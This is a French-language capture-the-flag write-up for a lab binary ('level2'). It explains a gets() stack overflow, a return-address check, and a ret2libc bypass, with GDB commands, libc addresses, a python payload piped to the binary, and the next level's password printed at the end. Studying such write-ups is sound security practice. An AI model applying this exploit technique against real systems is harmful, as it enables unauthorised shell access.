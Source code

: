 En utilisant disass de GDB on voit l'utilisation de la fonction p()
En allant voir la fonction p() on remarque l'utilisation de gets ( qui va nous permettre d'utiliser un buffer overflow ). On pourrait écrire notre propre shellcode, le mettre dans la stack et faire pointer EIP dessus pour lancer un shell admin.
Mais apres gets() la fonction p va vérifier l'adresse de retour de la fonction avec 0xb0000000. 

0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
0x080484fb <+39>:    and    $0xb0000000,%eax
0x08048500 <+44>:    cmp    $0xb0000000,%eax

Si on fait pointer sur par exemple 0xbfffff01, on aurait comme comparaison ((0xbfffff01 & 0xb0000000) == 0xb0000000) 
0xbfffff01 = 10111111 11111111 11111111 00000001
AND
0xb0000000 = 10110000 00000000 00000000 00000000
En opération binaire 1 & 0 = 0 donc on obtient
0xb0000000 = 10110000 00000000 00000000 00000000

Nous ne pouvont donc pas overwrite EIP avec une adresse commencant par 0xb, ce qui est le cas de toutes les adresses de la stack. 

En revanche on peut utiliser un ret2libc ce qui va nous permettre de bypass la vérification de notre eip car on se référera à la heap et donc de quand même exécuter notre commande pour lancer le shell.

Un ret2libc se forme comme ceci:

"notre buffer size max" + "l'adresse du return de la fonction p" + "l'adresse de la fonction system" + "l'adresse de la fonction exit ( qui sert de fonction de retour pour system )" + " notre argument pour la fonction system donc l'adresse de la string /bin/sh"

Toutes ces informations sont disponibles dans le système en dehors de l'exécutable, et avec l'Address Space Layout Randomization (ASLR) désactivé, on peut accéder à leur adresse mémoire via gdb. Il suffit de mettre un breakpoint dans le programme, le run puis d'utiliser les commandes suivantes:

`print &system` --> 0xb7e6b060 (adresse de system()) 
`print &exit`   --> 0xb7e5ebe0 (adresse de exit())
`disass p`     --> 0x0804853e (call assembly de ret, on remarque que ça ne commence pas par 0xb)
`find &system, +9999999, "/bin/sh"` --> 0xb7f8cc58 (adresse de la string "/bin/sh") 

Il nous manque que l'offset afin de savoir quel taille fait notre buffer.
j'utilise un generateur de pattern pour faciliter la tache
(wiremask.eu   buffer overflow pattern generator)

La taille du buffer est donc de 80.

Nous pouvons donc maintenant faire notre input ( attention au little endian )
`python -c "print('\x90'*80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')"`

On ajoute juste la commande cat pour que le shell reste actif.

`(python -c "print('\x90'*80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')" ; cat) | ./level2`

cat /home/level3/.pass

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
